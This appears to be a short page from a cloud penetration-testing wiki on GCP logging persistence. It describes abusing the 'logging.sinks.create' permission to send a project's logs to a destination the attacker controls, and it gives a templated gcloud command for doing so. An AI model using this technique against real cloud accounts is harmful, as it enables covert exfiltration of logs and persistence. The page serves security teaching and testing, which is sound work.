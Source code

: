 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Find more information about Logging in:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Create a sink to exfiltrate the logs to an attackers accessible destination:

```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```

{{#include ../../../banners/hacktricks-training.md}}




